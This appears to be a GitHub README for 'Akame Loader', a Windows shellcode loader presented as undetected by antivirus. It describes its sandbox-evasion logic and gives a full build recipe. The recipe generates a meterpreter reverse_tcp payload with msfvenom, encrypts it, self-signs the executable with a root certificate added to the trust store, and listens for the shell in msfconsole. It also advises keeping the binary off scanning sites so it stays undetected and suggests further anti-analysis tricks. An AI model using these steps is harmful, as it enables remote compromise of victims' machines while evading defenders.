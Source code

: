 <h1 align="center">Akame Loader</h1>
<p align="center">
  <img width="250" height="250" src="https://raw.githubusercontent.com/Wtf-Is-This-x1337/Akame-Loader/main/Images/akame.png" width="250" height="250">
</p>
<h4 align="center">An open source, UD (3/71) shellcode loader written in C++17</h4>

## Details
Icon: https://icon-icons.com/icon/Halloween-eye/109170
| Name | Details |
| ------ | ------ |
| Name | Akame Loader |
| Author | WtfIsThis |
| Language | C++17 |
| Platform | Windows |
| Version | 1.0 |
| License | MIT |
| Libraries | kernel32, advapi32, crypt32 |
| Encryption | AES256 |
| Build | Release - x64 |

! If you change the encryption method and want to keep your executable UD for a longer period of time, don't use VirusTotal / AntiScan.me / any other site that distributes to security vendors.

## How does it work?
1. Uses WINAPI WinMain so it doesn't popup any console window
2. Checks the current hard disk, if the size is under 100GB it closes itself
3. Sleeps for 10000ms (10s)
4. Checks if any tickcount-related function was manipulated by a sandbox (by checking the hashes and comparing the time slept with the time elapsed on the machine), if something seems wrong, it closes itself
5. Stores the IV, the encryption Key, and the encrypted payload as vectors
6. Allocates a memory buffer for the payload
7. Decrypts the payload (aes256) and closes itself if something doesn't work correctly
8. Copies the payload to a new buffer
9. Makes the new buffer as executable (This is not done during the first allocation because it's suspicious that a memory space is ReadWriteExecute at the same time and AVs may flag it!)
10. Executes the payload with an infinite thread (when the shellcode sends an 'exit' command, the process will close)

## How to build?
**1. Generate a shellcode with metasploit<br>**
- msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=*IP* LPORT=*PORT* -f raw > shellcode.bin

**2. Encrypt your shellcode with encrypt.exe<br>**
- mv shellcode.bin \Akame Loader\x64\Release\Resources\ <br>
- cd \Akame Loader\x64\Release\Resources\ <br>
- (optional) encrypt --help<br>
- encrypt.exe -l cpp -m shellcode.bin -e random -o cli<br>

**3. Copy the output and paste it under the "payload" comment<br>**
- Paste your IV key, your KEY and your BUFF into the existent vectors<br>

**4. Change the resources<br>**
- Add your icon, your company name, etc.

**5. Build the project<br>**
- Platform Toolset: Visual Studio 2022 (v143)<br>
- Language standard: ISO C++17<br>
- Optimization: /O2 <br>
- Configuration: Release<br>
- Platform: x64<br>
- Runtime Library: Multi-Threaded (/MT)<br>
- SubSystem: Windows<br>
- Dependencies: user32.lib;advapi32.lib;crypt32.lib;<br>
- Generate debug info: No
  
**6. Add a certificate to your executable<br>**
  ! Change "Akame.exe" to your executable and AkameCert/AkameCA to whatever you want<br>
- move Akame.exe Resources && cd Resources<br>
- makecert.exe -r -pe -n "CN=Akame CA" -ss CA -sr CurrentUser -a sha256 -cy authority -sky signature -sv AkameCA.pvk AkameCA.cer<br>
- certutil -user -addstore Root AkameCA.cer<br>
- makecert.exe -pe -n "CN=Akame Cert" -a sha256 -cy end -sky signature -ic AkameCA.cer -iv AkameCA.pvk -sv AkameCert.pvk AkameCert.cer<br>
- pvk2pfx.exe -pvk AkameCert.pvk -spc AkameCert.cer -pfx AkameCert.pfx<br>
- signtool.exe sign /v /f AkameCert.pfx /t http://timestamp.digicert.com/?alg=sha1 Akame.exe
  
**7. Listen for incomming connections<br>**
- msfconsole -q
- use exploit/multi/handler
- set payload windows/x64/meterpreter/reverse_tcp
- (optional) show options
- set LHOST *IP*
- set LPORT *PORT*
- exploit

## Video POC
Platform: Windows 10 x64 <br>
Antivirus: Windows Defender <br>
Date: 24/10/2022
! Blackscreens in the video caused by UAC <br>
<video src='https://user-images.githubusercontent.com/78364462/197958813-9075bdca-2154-47e2-a7a9-52a7d62bbb4c.mp4'>
  
## VirusTotal Scan (3/71 security vendors and no sandboxes on 24/10/2022)
I uploaded the loader to Virus Total because I don't want this to be used for malicious purposes!<br>
The shellcode used was generated with metasploit (payload: windows/x64/meterpreter/reverse_tcp) and encrypted by \resources\encrypt.exe.<br>
The loader was build with VS22 and signed with a sha1 certificate

<details open>
  <summary>File Scan</summary>
  <img src="https://raw.githubusercontent.com/Wtf-Is-This-x1337/Akame-Loader/main/Images/virustotal1.png">
</details>
<details>
  <summary>File Details</summary>
  <img src="https://raw.githubusercontent.com/Wtf-Is-This-x1337/Akame-Loader/main/Images/virustotal.png">
</details>
Link: https://www.virustotal.com/gui/file/68e6a25457093584a043ed3f721be9bc9b6456edd792cb4e30054e85bdc4119f?nocache=1

## What should be added to make it more advanced / functional?
- More anti analysis techniques (checking for suspicious files, directories, processes and windows' names) <br>
- Anti debugging (detecting analysis in general) <br>
- Anti static analysis (function call obfuscation and also finding kernel32 location in the process environment block to avoid using GetModuleHandle() and GetProcAddress())<br>
- Adding 'fake' imports to fill the import table and make it look more legitimate

## Properties
**File**
- Name: Akame.exe <br>
- Architecture: x64 <br>
- File size: 170336 bytes <br>

**Hashes**
- MD5: 560e4432cdbf26332fd3795cf3647cb7 <br>
- SHA1: ffd9942abb6dff4467456b06af2e2742427aff46 <br>
- SHA256: 68e6a25457093584a043ed3f721be9bc9b6456edd792cb4e30054e85bdc4119f

**Table of Imports**
<details>
  <summary>- ADVAPI32.dll: 9 functions</summary>
CryptAcquireContextW, 194<br>
CryptCreateHash, 196<br>
CryptDecrypt, 197<br>
CryptDeriveKey, 198<br>
CryptDestroyHash, 199<br>
CryptDestroyKey, 200<br>
CryptHashData, 217<br>
CryptReleaseContext, 220<br>
CryptSetKeyParam, 222
</details>
<details>
  <summary>- KERNEL32.dll: 72 functions</summary>
CloseHandle, 137<br>
CreateFileW, 206<br>
CreateThread, 245<br>
DeleteCriticalSection, 276<br>
DeviceIoControl, 292<br>
EnterCriticalSection, 312<br>
ExitProcess, 359<br>
FindClose, 382<br>
FindFirstFileExW, 388<br>
FindNextFileW, 405<br>
FlushFileBuffers, 424<br>
FreeEnvironmentStringsW, 435<br>
FreeLibrary, 436<br>
GetACP, 443<br>
GetCommandLineA, 479<br>
GetCommandLineW, 480<br>
GetConsoleMode, 517<br>
GetConsoleOutputCP, 521<br>
GetCPInfo, 458<br>
GetCurrentProcess, 544<br>
GetCurrentProcessId, 545<br>
GetCurrentThreadId, 549<br>
GetEnvironmentStringsW, 577<br>
GetFileType, 600<br>
GetLastError, 618<br>
GetModuleFileNameW, 637<br>
GetModuleHandleExW, 640<br>
GetModuleHandleW, 641<br>
GetOEMCP, 673<br>
GetProcAddress, 696<br>
GetProcessHeap, 702<br>
GetStartupInfoW, 730<br>
GetStdHandle, 732<br>
GetStringTypeW, 737<br>
GetSystemTimeAsFileTime, 755<br>
GetTickCount64, 786<br>
HeapAlloc, 849<br>
HeapFree, 853<br>
HeapReAlloc, 856<br>
HeapSize, 858<br>
InitializeCriticalSectionAndSpinCount, 875<br>
InitializeSListHead, 879<br>
IsDebuggerPresent, 901<br>
IsProcessorFeaturePresent, 908<br>
IsValidCodePage, 914<br>
LCMapStringW, 952<br>
LeaveCriticalSection, 964<br>
LoadLibraryExW, 970<br>
MultiByteToWideChar, 1014<br>
QueryPerformanceCounter, 1106<br>
RaiseException, 1128<br>
RtlCaptureContext, 1237<br>
RtlLookupFunctionEntry, 1244<br>
RtlUnwindEx, 1250<br>
RtlVirtualUnwind, 1251<br>
SetFilePointerEx, 1331<br>
SetLastError, 1345<br>
SetStdHandle, 1371<br>
SetUnhandledExceptionFilter, 1407<br>
Sleep, 1423<br>
TerminateProcess, 1438<br>
TlsAlloc, 1456<br>
TlsFree, 1457<br>
TlsGetValue, 1458<br>
TlsSetValue, 1459<br>
UnhandledExceptionFilter, 1472<br>
VirtualAlloc, 1497<br>
VirtualProtect, 1503<br>
WaitForSingleObject, 1514<br>
WideCharToMultiByte, 1553<br>
WriteConsoleW, 1572<br>
WriteFile, 1573
</details>

## License
MIT License

Copyright (c) 2022 WtfIsThis

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.

## Disclaimer
This program is distributed in the hope that it will be useful, but WITHOUT ANY WARRANTY; without even the implied warranty of MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
